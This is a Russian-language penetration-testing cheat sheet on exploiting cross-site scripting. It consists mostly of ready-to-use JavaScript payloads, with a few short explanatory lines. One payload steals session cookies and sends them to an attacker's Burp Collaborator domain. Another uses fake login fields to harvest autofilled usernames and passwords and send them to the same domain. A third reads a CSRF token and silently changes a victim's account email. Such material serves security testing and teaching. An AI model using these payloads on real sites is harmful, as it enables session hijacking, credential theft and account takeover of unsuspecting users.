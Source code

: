 # Exploiting XSS

Обычно делают нагрузку `alert(document.domain)` и этого достаточно, чтобы показать — "да, мы можем выполнять код в контексте JavaScript". Ниже примеры, как еще можем эксплуатировать эту уязвимость:

## Кража сессии (куки)

Можем отправлять куки пользователей на свой домен и выполнить hijack. Конечно, есть ограничения:

* Пользователь может быть неавторизован
* Установлен HttpOnly
* Сессия может быть привязана к еще одному фактору (например, IP-адрес)
* Время жизни сессии может быть невелика

Пример — Simple POST-request with cookies:

```markup
<script>
let data = {
    "cc": document.cookie
};
fetch("https://<YOU-COLLABORATOR>.burpcollaborator.net/", {
    method: 'POST',
    mode: 'no-cors',
    credentials: 'include',
    headers: {
        'Content-Type': 'application/x-www-form-urlencoded'
    },
    redirect: 'follow',
    body: JSON.stringify(data)
});
</script>
```

## Кража паролей из форм автозаполнения

Конечно, если пользователь использует менеджеры паролей

Например, создаем блоки ввода как у оригинальной формы авторизации и менеджер паролей сам подставит туда значения:

```markup
<input type=username name="username" onchange="if (this.value.length) fetch('https://<YOU-COLLABORATOR>.burpcollaborator.net/', {method:'POST', mode: 'no-cors', body:'login:' + this.value})">
<input type=password name="password" onchange="if (this.value.length) fetch('https://<YOU-COLLABORATOR>.burpcollaborator.net/', {method:'POST', mode: 'no-cors', body:'password:' + this.value})">
```

## CSRF

Если мы можем исполнить JS, то мы можем сделать почти все, что и обычный пользователь. CSRF-токены от CSRF-атаки не спасут, если есть XSS на странице.

```markup
<script>
    fetch("/my-account", {
        method: 'GET',
        mode: 'cors',
        credentials: 'include',
        redirect: 'follow'
    }).then(response => response.text())
    .then(text => text.match(/name="csrf" value="([\w]+)"/))  // Get CSRF token
    .then(csrf => {                                           // Send request 
        fetch('/my-account/change-email', {
            method: 'POST',
            mode: 'cors',
            credentials: 'include',
            redirect: 'follow',
            body: new URLSearchParams({
                'email': 'newemail@normal-user.net',
                'csrf': csrf[1]
            })
        })
    });
</script>
```

